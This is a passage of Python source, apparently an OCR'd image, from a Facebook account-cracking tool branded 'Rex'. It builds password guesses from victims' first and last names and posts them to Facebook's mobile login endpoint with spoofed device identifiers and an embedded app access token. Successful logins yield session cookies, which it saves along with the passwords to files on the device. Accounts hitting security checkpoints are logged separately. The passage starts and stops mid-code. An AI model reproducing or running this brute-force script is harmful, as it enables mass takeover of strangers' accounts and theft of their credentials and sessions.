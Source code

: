 'x-fb-device-group': '5120',
'X-FB-Friendly-Name': 'ViewerReactionsMutation',
'X-FB-Request-Analytics-Tags': 'graphservice',
'X-FB-HTTP-Engine': 'Liger',
'X-FB-Client-IP': 'True',
'X-FB-Server-Cluster': 'True',
'x-fb-connection-token': 'd29d67d37eca387482a8a5b740f84f62',}
                q = session.post("https://b-graph.facebook.com/auth/login",data=data, headers=headers, allow_redirects=False).json()
                if 'session_key' in q:
                    ckkk = ";".join(i["name"]+"="+i["value"] for i in q["session_cookies"]);Rexb = base64.b64encode(os.urandom(18)).decode().replace("=","").replace("+","_").replace("/","-");cookie = f"sb={Rexb};{ckkk}"
                    print(f"\r{R} [Rex-OK] {sid} | {ps} {S}")
                    oks.append(sid)
                    open('/sdcard/Rex_OK_ids_M1.txt','a').write(sid+'|'+ps+'\n');open('/sdcard/Rex_iDs_COOKiEs_M1.txt','a').write(sid+'|'+ps+'|'+cookie+'\n')
                    break
                elif 'www.facebook.com' in q['error']['message']:
                     #print(f"\r{A} [Rex-CP] {sid} | {ps} {S}")
                     cps.append(sid)
                     open('/sdcard/Rex_CP.txt','a').write(sid+'|'+ps+'\n')
                else:
                    continue
            loop+=1
        except requests.exceptions.ConnectionError:
            self.methodA(sid, name, ps)
            
    def methodC(self, sid, name, psw):
        try:
            global oks,cps,loop
            sys.stdout.write(f"\r {S}[Rex] {loop} | M3 OK/CP {len(oks)}/{len(cps)} | {S}{'{:.0%}'.format(loop/float(len(self.id)))}{S}")
            sys.stdout.flush()
            fs = name.split(' ')[0]
            try:
                ls = name.split(' ')[1]
            except:
                ls = fs
            for pw in psw:
                ps = pw.replace('first',fs.lower()).replace('First',fs).replace('last',ls.lower()).replace('Last',ls).replace('Name',name).replace('name',name.lower())
                with requests.Session() as session:
                    data = {"adid": str(uuid.uuid4()),
"format": "json",
"device_id": str(uuid.uuid4()),
"cpl": "true",
"family_device_id": str(uuid.uuid4()),
"credentials_type": "device_based_login_password",
"error_detail_type": "button_with_disabled",
"source": "device_based_login",
"email": sid,
"password": ps,
"access_token": "350685531728%7C62f8ce9f74b12f84c123cc23437a4a32",
"generate_session_cookies": "1",
"meta_inf_fbmeta": "",
"advertiser_id": str(uuid.uuid4()),
"currently_logged_in_userid": "0",
"locale": "en_GB",
"client_country_code": "GB",
"method": "auth.login",
"fb_api_req_friendly_name": "authenticate",
"fb_api_caller_class": "com.facebook.account.login.protocol.Fb4aAuthHandler",
"api_key": "882a8490361da98702bf97a021ddc14d"}
                headers = {'User-Agent': randBuildLSB(),